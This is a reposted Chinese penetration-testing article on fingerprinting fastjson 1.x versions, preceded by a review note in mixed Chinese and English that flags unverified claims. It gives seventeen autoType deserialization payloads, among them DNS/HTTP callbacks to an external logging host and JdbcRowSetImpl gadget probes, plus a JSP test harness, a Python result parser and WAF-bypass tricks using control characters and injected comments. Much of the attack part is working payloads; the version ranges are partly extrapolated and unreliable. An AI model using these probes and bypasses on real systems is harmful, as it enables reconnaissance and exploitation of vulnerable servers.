## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Tests list1.2.1–83 with gaps; JSON.parse default configuration only; JDK/server/dependency versions not pinned

代码与实验材料：JSP classloader harness, Python DNS-result combiner,17 probes and whitespace/comment cases; no raw results; non-callback classified unavailable

来源证据范围：Original WeChat, official issue3077, f0ng/poc2jar, FastjsonScan, research references

- **事实待核（1）**：URLClassLoader.close does not unload classes; parent delegation can select existing Fastjson, so verify class provenance/isolation, not assume fresh version each request。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（2）**：No DNS callback not definitive unsupported version; allow egress/caching/timeouts and exact parsed-overload scope。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（3）**：Claims all1.x but explicit list omits releases; headings &gt;= extrapolate beyond tested83; escaped payload artifacts。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# fastjson 之各个版本 payload 测试

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/dnxCEt03jJUFS3-ROHdihg)

每次测试遇到 fastjson 无法定位版本，部分文章里的 payload 也没有准确的版本范围，抽空对 payload 做了个测试，这里记录下

0x00 概述
-------

使用常见的 payload 对 fastjson 版本进行测试，方便遇到 fastjson 进行较小范围的版本判断，使用 bypass 字符绕过等等，文末有修改的 fastjson 版本探测小工具

0x01 背景
-------

测试过程中，会遇到很多 json 进行传输的站点，有 jackson、fastjson 等等，但是这些当中，有漏洞的概率最大的还是 fastjson。

确定 fastjson 的版本是攻击 fastjson 的第一步，很多的文章只是一笔带过，如下面这种



没有明确到某些版本，又或者是明确了版本，但是可能不是正确的，导致基础比较薄弱的师傅对 fastjson 的利用较为困难，实际上 fastjson 并不是只能命令执行，在某些版本中还可以文件读取、ssrf 等等。本篇文章记录下常见的 payload 对于一些版本的判断测试

0x02 测试具体方法
-----------

用 pom 把所有版本的 fastjson 下载了，然后在 fastjson 文件夹下执行这个命令，把 fastjson 固定在一个文件内，通过反射装载 jar，调用完以后卸载

```
find . -name "*.jar" -type f -exec cp  {} /Users/f0ng/xxxxxx/ \;


```

调用 fastjson 包的原理为 使用反射获取请求里传来的版本参数，从而动态调用相应版本的 fastjson 进行解析，解析完毕以后自动卸载

测试涵盖 fastjson1 所有版本



测试版本如下：

```
1_2_83
1_2_80
1_2_79
1_2_78
1_2_77
1_2_76
1_2_75
1_2_74
1_2_73
1_2_72
1_2_71
1_2_70
1_2_69
1_2_68
1_2_67
1_2_66
1_2_62
1_2_61
1_2_60
1_2_59
1_2_58
1_2_57
1_2_56
1_2_55
1_2_54
1_2_53
1_2_52
1_2_51
1_2_50
1_2_49
1_2_48
1_2_47
1_2_46
1_2_45
1_2_44
1_2_43
1_2_42
1_2_41
1_2_40
1_2_39
1_2_38
1_2_37
1_2_36
1_2_35
1_2_34
1_2_33
1_2_32
1_2_31
1_2_30
1_2_29
1_2_28
1_2_27
1_2_26
1_2_25
1_2_24
1_2_23
1_2_22
1_2_21
1_2_20
1_2_19
1_2_18
1_2_17
1_2_16
1_2_15
1_2_14
1_2_13
1_2_12
1_2_11
1_2_10
1_2_9
1_2_8
1_2_7
1_2_6
1_2_5
1_2_4
1_2_3
1_2_2
1_2_1


```

python 脚本如下

```
# -*- coding: utf-8 -*-  
# @Software: f0ng  
  
fastjosn_version = ["1_2_83",  
"1_2_80",  
"1_2_79",  
"1_2_78",  
"1_2_77",  
"1_2_76",  
"1_2_75",  
"1_2_74",  
"1_2_73",  
"1_2_72",  
"1_2_71",  
"1_2_70",  
"1_2_69",  
"1_2_68",  
"1_2_67",  
"1_2_66",  
"1_2_62",  
"1_2_61",  
"1_2_60",  
"1_2_59",  
"1_2_58",  
"1_2_57",  
"1_2_56",  
"1_2_55",  
"1_2_54",  
"1_2_53",  
"1_2_52",  
"1_2_51",  
"1_2_50",  
"1_2_49",  
"1_2_48",  
"1_2_47",  
"1_2_46",  
"1_2_45",  
"1_2_44",  
"1_2_43",  
"1_2_42",  
"1_2_41",  
"1_2_40",  
"1_2_39",  
"1_2_38",  
"1_2_37",  
"1_2_36",  
"1_2_35",  
"1_2_34",  
"1_2_33",  
"1_2_32",  
"1_2_31",  
"1_2_30",  
"1_2_29",  
"1_2_28",  
"1_2_27",  
"1_2_26",  
"1_2_25",  
"1_2_24",  
"1_2_23",  
"1_2_22",  
"1_2_21",  
"1_2_20",  
"1_2_19",  
"1_2_18",  
"1_2_17",  
"1_2_16",  
"1_2_15",  
"1_2_14",  
"1_2_13",  
"1_2_12",  
"1_2_11",  
"1_2_10",  
"1_2_9",  
"1_2_8",  
"1_2_7",  
"1_2_6",  
"1_2_5",  
"1_2_4",  
"1_2_3",  
"1_2_2",  
"1_2_1"]  
  
import requests  
  
def convert_to_ranges(versions):  
    ranges = []  
    start = end = versions[0]  
  
    for v in versions[1:] + [None]:  
        # 将版本号字符串转换为数字列表  
        parts = list(map(int, v.split('_'))) if v is not None else None  
        end_parts = list(map(int, end.split('_')))  
  
        # 检查版本是否连续  
        if parts is not None and parts[0] == end_parts[0] \  
           and parts[1] == end_parts[1] and parts[2] == end_parts[2] - 1:  
            end = v  
        else:  
            # 如果只有一个版本，只添加这个版本  
            if start == end:  
                ranges.append(start)  
            else:  
                ranges.append(f"{end}-{start}")  
            if v is not None:  
                start = end = v  
    return ranges  
  
  
  
burp0_url = "https://callback.red:443/"  
burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Sec-Ch-Ua": "\"Not A(Brand\";v=\"99\", \"Google Chrome\";v=\"121\", \"Chromium\";v=\"121\"", "Sec-Ch-Ua-Platform": "\"macOS\"", "Sec-Ch-Ua-Mobile": "?0", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36", "Content-Type": "application/x-www-form-urlencoded", "Accept": "*/*", "Origin": "https://www.callback.red", "Sec-Fetch-Site": "same-site", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Dest": "empty", "Referer": "https://www.callback.red/", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8", "Connection": "close"}  
  
burp0_data = {"key":  
                  "xxxxxxxxx"}  
resp = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)  
  
  
total = []  
for _ in fastjosn_version:  
    if  _.replace(".","_")+"." not in resp.text :  
        total.append(_)  
  
  
if len(total) > 0:  
    # 调用函数并打印结果  
    version_ranges = convert_to_ranges(total)  
else:  
    version_ranges = "无"  
print("不可用版本")  
print(version_ranges)


```

主要流程

1.  将 fastjson 的 payload 准备好，动态加载参数`version`设置为变量，payload 的 dnslog 设置为变量，字典为版本号，进行 intruder 爆破
    
2.  在 dnslog 平台查看相应的版本号，如果没有相应的版本，则表示相应版本无法使用 payload 进行 dnslog 获取
    

jsp 源码如下

```
<%@ page import="java.io.InputStreamReader" %>  
<%@ page import="java.io.BufferedReader" %>  
<%@ page import="java.lang.reflect.Field" %>  
<%@ page import="java.net.URL" %>  
<%@ page import="java.net.URLClassLoader" %>  
<%@ page import="java.lang.reflect.Method" %>  
  
<%@ page contentType="text/html;charset=UTF-8" language="java" %>  
<%--测试fastjson各个版本payload、bypass字符--%>  
<%  
      // JAR文件的路径  
      URL jarUrl = new URL("file:///Users/f0ng/fastjsonjars/fastjson-"+request.getParameter("version").replace("_",".")+".jar");  
// 父类加载器，可以用当前线程的类加载器等  
      ClassLoader parentClassLoader = Thread.currentThread().getContextClassLoader();  
// 创建URLClassLoader实例以加载JAR  
      URLClassLoader classLoader = new URLClassLoader(new URL[]{jarUrl}, parentClassLoader);  
  
      Class var8 = classLoader.loadClass("com.alibaba.fastjson.JSONArray");  
      Field var9 = var8.getField("VERSION");  
      String var10 = (String)var9.get("");  
  
  
      response.setHeader("version",var10);  
  
      BufferedReader br = new BufferedReader(new InputStreamReader((ServletInputStream) request.getInputStream(), "utf-8"));  
  
      StringBuffer sb = new StringBuffer("");  
      String temp;  
  
      while ((temp = br.readLine()) != null) {  
            sb.append(temp);  
      }  
  
      br.close();  
      String params = sb.toString();  
  
 out.print(params);  
 Class var81 = classLoader.loadClass("com.alibaba.fastjson.JSON");  
 Method parseMethod = var81.getMethod("parse", String.class);  
 Object result = parseMethod.invoke(null, params);  
 classLoader.close();  
%>


```

dnslog 的 payload 流程如上，其他类型，如报错、回显这种也类似

测试的时候，在响应头可以看到相应的 fastjson 版本



在响应平台获取到相应记录



0x03 判断版本 payload
-----------------

测试的一切 payload 均采用 fastjson 的默认配置，本次测试只用到了`com.alibaba.fastjson.JSON.parse()`函数

#### payload 1(dns 请求)【fastjson>=1.2.37】

```
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://§1§.\{\{URL\}\}"\}\}""}


```

经测试，可用范围`1.2.37-1.2.83`，即 fastjson 版本 >=1.2.37



#### payload 2(dns 请求)【fastjson>=1.2.37】

```
\{\{"@type":"java.net.URL","val":"http://§1§.\{\{URL\}\}"}:0


```

经测试，可用范围`1.2.37`-`1.2.83`，即 fastjson 版本 >=1.2.37



#### payload 3(dns 请求)【fastjson>=1.2.9】

```
Set[{"@type":"java.net.URL","val":"http://§1§.\{\{URL\}\}"}]


```

经测试，可用范围`1.2.9`-`1.2.83`，即 fastjson 版本 >=1.2.9


#### payload 4(dns 请求)【fastjson>=1.2.9】

```
Set[{"@type":"java.net.URL","val":"http://§1§.\{\{URL\}\}"}


```

经测试，可用范围`1.2.9`-`1.2.83`，即 fastjson 版本 >=1.2.9



#### payload 5(dns 请求)【1.2.9<=fastjson<=1.2.47】

```
{"name":{"@type":"java.net.InetAddress","val":"§1§.\{\{URL\}\}"\}\}


```

经测试，可用范围`1.2.47`以下，`1.2.9`以上，即 1.2.9<=fastjson 版本 <=1.2.47



#### payload 6(dns 请求)【fastjson>=1.2.9】

```
[{"@type":"java.net.InetSocketAddress"{"address":,"val":"§1§.\{\{URL\}\}"\}\}]


```

经测试，可用范围`1.2.9`以上，即 fastjson 版本 >=1.2.9



#### payload 7(http 请求)【1.2.37<=fastjson<=1.2.68】

```
{"a":{"@type":"java.lang.AutoCloseable","@type":"com.alibaba.fastjson.JSONReader","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"http://§1§.\{\{URL\}\}"\}\\}\}


```

经测试，可用范围`1.2.68`以下，`1.2.37`以上，即 1.2.37<=fastjson 版本 <=1.2.68



#### payload 8(dns 请求)【fastjson>=1.2.9 以及 fastjson=1.2.83】

```
[{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"§1§.80.\{\{URL\}\}"\}\\}\},{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","message":{"@type":"java.net.InetSocketAddress"{"address":,"val":"§1§.83.\{\{URL\}\}"\}\\}\}]


```

经测试，带有 83 的 dnslog 记录只会在`fastjson 1.2.83`中出现



带有 80 的 dnslog 记录，可用范围`1.2.9`以上



#### payload 9(dns 请求)【1.2.9<=fastjson<=1.2.68】

```
[{"@type": "java.lang.AutoCloseable","@type": "java.io.ByteArrayOutputStream"},{"@type": "java.io.ByteArrayOutputStream"},{"@type": "java.net.InetSocketAddress"{"address":,"val": "§1§.\{\{URL\}\}"\}\}]


```

经测试，可用范围`1.2.9`以上，`1.2.68`以下，即 1.2.9<=fastjson 版本 <=1.2.68



#### payload 10(dns 请求)【1.2.9<=fastjson<=1.2.47】

```
{"@type":"java.net.InetAddress","val":"§1§.\{\{URL\}\}"}


```

经测试，可用范围`1.2.9`以上，`1.2.47`以下，即 1.2.9<=fastjson 版本 <=1.2.47



#### payload 11(dns 请求)【fastjson>=1.2.9】

单独的两条

```
{"@type":"java.net.Inet4Address","val":"§1§.\{\{URL\}\}"}

{"@type":"java.net.Inet6Address","val":"§1§.\{\{URL\}\}"}


```

经测试，可用范围`1.2.9`以上，即 fastjson 版本 >=1.2.9


#### payload 12(dns 请求)【fastjson>=1.2.9】

```
{"@type":"java.net.InetSocketAddress"{"address":,"val":"§1§.\{\{URL\}\}"\}\}


```

经测试，可用范围`1.2.9`以上，即 fastjson 版本 >=1.2.9


#### payload 13(dns 请求)【1.2.9<=fastjson<=1.2.24 以及 1.2.40<=fastjson<=1.2.47】

```
[{"@type":"java.lang.Class","val":"java.io.ByteArrayOutputStream"},{"@type":"java.io.ByteArrayOutputStream"},{"@type":"java.net.InetSocketAddress"{"address":,"val":"§1§.\{\{URL\}\}"\}\}]


```

经测试，可用范围`1.2.9`以上，`1.2.24`以下或者`1.2.40`以上，`1.2.47`以下，即`1.2.9<=fastjson版本<=1.2.24`或者`1.2.40<=fastjson版本<=1.2.47`



#### payload 14(报错)【fastjson<=1.2.24 以及 fastjson=1.2.83】

```
{"page":{"pageNumber":1,"pageSize":1,"zero":{"@type":"java.lang.Exception","@type":"org.XxException"\}\\}\}


```

经测试，在 fastjson<=1.2.24 以及 fastjson=1.2.83 的时候不会报错，其余均报错



#### payload 15(报错)【fastjson<=1.2.68】

```
{"page":{"pageNumber":1,"pageSize":1,"zero":{"@type":"java.lang.AutoCloseable","@type":"java.io.ByteArrayOutputStream"\}\\}\}


```

经测试，在 fastjson<=1.2.68 的时候不会报错，其余均报错



#### payload 16(报错) 【1.2.9<=fastjson<=1.2.47】

```
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl"\}\}


```

经测试，在 1.2.9<=fastjson<=1.2.47 的时候不会报错，其余均报错



#### payload 17(报错) 【fastjson<=1.2.47】

```
{"zero": {"@type": "com.sun.rowset.JdbcRowSetImpl"\}\}


```

经测试，在 fastjson<=1.2.47 的时候不会报错，其余均报错



0x04 判断 bypass 字符
-----------------

测试的 payload 为 dnslog 下，payload 选取较为通用的`{"@type":"java.net.InetSocketAddress"{"address":,"val":"§1§.\{\{URL\}\}"\}\}`【在 fastjson 版本 >=1.2.9 下都可以使用】

#### payload 1

`\a、\n、\b、\r、\f、\t` 等

`com.alibaba.fastjson.parser.JSONLexerBase`代码



`\r`即为十六进制的 0x0d`\n`即为十六进制的 0x0a`\t`即为十六进制的 0x09`\a`即为十六进制的 0x07`\b`即为十六进制的 0x08`\f`即为十六进制的 0x0c 0x0b

##### 不影响`@type`前提下

payload 如下



经测试，可用范围`1.2.9`以上，即 fastjson 版本 >=1.2.9



特殊字符的 base64 编码为`DQoJDAsHDA==`

##### 影响`@type`前提下

这里经过测试，如果把字符串中的`0x07`以及`0x0b`去除，可以加在`"@type":"java.net.InetSocketAddress"`不影响 json 的解析，反之，则会造成 500 错误



即以下 payload 是可以发出请求的



base64 编码为`ew0KCQwMIkB0eXBlIg0KCQwMOg0KCQwMImphdmEubmV0LkluZXRTb2NrZXRBZGRyZXNzIg0KCQwLBwx7DQoJDAsHDCJhZGRyZXNzIg0KCQwLBww6DQoJDAsHDCwNCgkMCwcMInZhbCINCgkMCwcMOg0KCQwLBwwiMjIyMjIubmxuMC5jYWxsYmFjay5yZWQifX0=`

经测试，可用范围`1.2.9`以上，即 fastjson 版本 >=1.2.9



另外也可以这样使用，每个字符加`\r\n`进行换行，其他字符不行



##### 结论

*   `\r`即为十六进制的 0x0d，可任意使用
    
*   `\n`即为十六进制的 0x0a，可任意使用
    
*   `\t`即为十六进制的 0x09，可任意使用
    
*   `\a`即为十六进制的 0x07，在`@type`及其值附近不允许使用
    
*   `\b`即为十六进制的 0x08，可任意使用
    
*   `\f`即为十六进制的 0x0c，可任意使用
    
*   0x0b，在`@type`及其值附近不允许使用
    

#### payload 2

`/*{*/` 注释符

```
{/*{*/"@type"/*{*/:/*{*/"java.net.InetSocketAddress"/*{*/{/*{*/"address":/*{*/,/*{*/"val"/*{*/:"33.bnoo.callback.red"/*{*/}/*{*/}


```

经测试，可用范围`1.2.9`以上，即 fastjson 版本 >=1.2.9



使用另一个 payload

```
[{"@type"/*{*/:/*{*/"java.lang.Exception","@type":/*{*/"com.alibaba.fastjson.JSONException","x":/*{*/{"@type"/*{*/:/*{*/"java.net.InetSocketAddress"{"address"/*{*/:/*{*/,"val"/*{*/:/*{*/"4321111.hu7g.callback.red"\}\\}\},{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","message":{"@type":"java.net.InetSocketAddress"{"address":,"val":"83.hu7g.callback.red"\}\\}\}]


```

不允许注释符的地方

```
"@type":"com.alibaba.fastjson.JSONException"
"x":


```



#### payload n

还有很多可以混淆的方法，诸如加逗号、unicode 编码、hex 编码 (`\x`)、单双引号、下划线 (FastJson 会自动把下划线命名的 Json 字符串转化到驼峰式命名的 Java 对象字段中) 等等

0x05 测试结论
---------

大致通过对 payload 的测试得到了一些判断 fastjson 版本范围的 payload，但是怎么在日常测试中能运用到呢，这里有两个工具

#### FastjsonScan

得益于以上 payload 的版本范围从而可以对工具进行版本的修改，这里简单修改了 a1phaboy 师傅的工具`https://github.com/a1phaboy/FastjsonScan`测试截图如下 (在无法报错获取版本号的前提下)



大于等于 1.2.47 小于等于 1.2.68，调用的为 1.2.68，满足条件



大于等于 1.2.9 小于等于 1.2.37，调用的为 1.2.28，满足条件



大于等于 1.2.68，调用的为 1.2.80，满足条件



调用的为 1.2.83，满足条件

这里放出一个扫描 fastjson 版本的，更改了 dnslog，增加了 get、post`application/x-www-form-urlencoded`传参的利用方式，公众号回复`fastjsonscan`即可获得

#### poc2jar

poc2jar 中也集成了大致判断的判断



复制 payload 到 intruder 中，进行爆破



根据结果大致判断为大于 9 小于 47[`大于9小于24或者大于40小于47`]，发现结果中没有 dayu37xiaoyu68，故 fastjson 版本为大于 9 小于 24，排除 37-47 的可能，调用的版本为 1.2.24，满足条件



0x06 总结
-------

1.  关于 fastjson 的版本确定一直是从其他师傅的文章、工具里来看到的，通过本地靶场搭建实操与文章里的有些结论还是有一定出入的，测试并非全面，也并非完全正确，如果有错误的，还请师傅们斧正
    
2.  测试环境的搭建也是灵光一现，希望可以作为案例给其他师傅进行组件版本测试中进行参考
    

0x07 引用
-------

> https://blog.csdn.net/m0_71692682/article/details/125814861 abc123 师傅关于 fastjson 文章《# 第 18 篇：fastjson 反序列化漏洞区分版本号的方法总结》
> 
> https://github.com/alibaba/fastjson/issues/3077 大师傅们对畸形 payload 的探讨
> 
> https://github.com/safe6Sec/Fastjson safe6Sec 师傅对 fastjson 的总结
> 
> https://y4tacker.github.io/2022/03/30/year/2022/3/%E6%B5%85%E8%B0%88Fastjson%E7%BB%95waf/ y4tacker 师傅对 fastjson bypass 的总结
> 
> https://github.com/a1phaboy/FastjsonScan a1phaboy 师傅的的 fastjson 扫描版本工具
> 
> https://drun1baby.top/2022/10/19/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8705-%E5%86%99%E7%BB%99%E8%87%AA%E5%B7%B1%E7%9C%8B%E7%9A%84%E4%B8%80%E4%BA%9B%E6%BA%90%E7%A0%81%E6%B7%B1%E5%85%A5%E5%88%86%E6%9E%90/ Drunkbaby 师傅对于 fastjson 源码的分析
> 
> https://mp.weixin.qq.com/s/jbkN86qq9JxkGNOhwv9nxA kezibei 师傅对于盲判断 fastjson 版本的文章
> 
> https://github.com/f0ng/poc2jar poc2jar 工具

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
